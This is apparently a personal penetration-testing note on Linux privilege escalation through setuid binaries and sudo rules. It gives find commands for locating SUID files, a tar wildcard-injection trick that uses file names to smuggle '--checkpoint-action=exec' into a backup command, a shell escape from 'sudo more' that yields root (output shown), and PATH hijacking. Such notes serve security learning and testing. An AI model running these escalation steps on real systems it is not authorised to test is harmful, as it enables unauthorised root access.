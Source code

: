 ```yaml
---
id: exploit_setuid_binaries
aliases:
  - SETUID
tags:
  - privilege_escalation
  - linux
---
```


## Usage:
The setuid/setgid (SUID/SGID) bits allows the binary to run with the privileges of the user/group owner instead of those of the user executing it. They can be spotted with the s or S permission in the file user or group owner permissions (i.e. ---s--s---). When the file permissions features an uppercase S instead of a lowercase one, it means the corresponding user or group owner doesn't have execution rights. 
> [!WARNING]
> - Just like capabilities, setuid and setgid bits are unset when a file is copied with cp or when its content changes.
> - Some partitions of the UNIX file system can be mounted with the nosuid option. In this case the setuid and setgid bits are ignored for binaries placed inside those partitions. It is a common good practice for tmpfs partitions like /tmp or/run. Searching the /proc/mounts pseudo-file for a nosuid flag can help find these partitions.

## Find SETUID:
- `sudo -l`
- find:
```bash
find $starting_path -perm -u=s -type f 2>/dev/null

# Or in octal mode
find $starting_path -perm -4000 -type f 2>/dev/null
  ```

## Exploit SETUID:
### Living off the land:
> [!WARNING]
> Check if the binary is in [GTFOBins](https://gtfobins.github.io/gtfobins/) for exploitation techniques
#### Examples:
  ##### Using [shell_wildcards](hack/vulnerabilities/shell_wildcards.md) and tar  
    - Imagine a scenario where a script backups a directory (that we can control) on the server each hour using tar like this :
       ```bash
       !/bin/bash
       mkdir -p /backups/
       cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
       ``` 

  - To use these options in our exploit, we jut need to create these two files in our directory, as well as the exploit.sh file, containing the command we want to run when we trigger the execution :
      ```bash 
      echo '' > '--checkpoint=1'
      echo '' > '--checkpoint-action=exec=sh exploit.sh'

      $ ls -lha 
      total 88K
      drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
      drwxrwxrwt 89 user user 76K avril 27 22:31 ..
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file1
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file2
      -rw-rw-r-- 1 user user 1 avril 27 22:31 '--checkpoint=1'
      -rw-rw-r-- 1 user user 1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
      -rwxrwxrwx 1 user user 784 avril 27 22:32 exploit.sh   
      ```
 ##### Using `more` and `sudo` :
   - Let's take an example, with this sudo configuration :
      ```bash
      $ sudo -l
      [sudo] password for user: 
      Matching Defaults entries for user on PC1:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
      ```
User user may run the following commands on PC1:
`(ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log`

In this case user can run the more command, but only to read a specific log file /var/log/apache2/access.log as root without password (NOPASSWD flag) :

`sudo -u root /usr/bin/more /var/log/apache2/access.log`

- You can assume this would be safe right ? Unfortunately, it's not. The more command has various useful options, one of them is !. When you're in more and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type !/bin/sh in more, you will open a shell as the owner of the parent more process !:

     ```bash
      $ sudo -u root /usr/bin/more /var/log/apache2/access.log
      File content line 1
      File content line 2
      ...
      File content line n
      ------------------------
      !/bin/sh
      # 
      uid=0(root) gid=0(root) groups=0(root)
      #
      ```

### Relative path calls:
  1. Usage:
    - The SETUID can be exploited if it makes calls via relative starting_path
  2. Discovery:
    - It can be discovered with `strace` command
  3. Exploitation:
    - Create an exploit and name it the same as the command called by the SETUID
    - Put the exploit path in the $PATH env variable
    - Now when the SRYUID will make the call it will search for it in PATH and execute the exploit
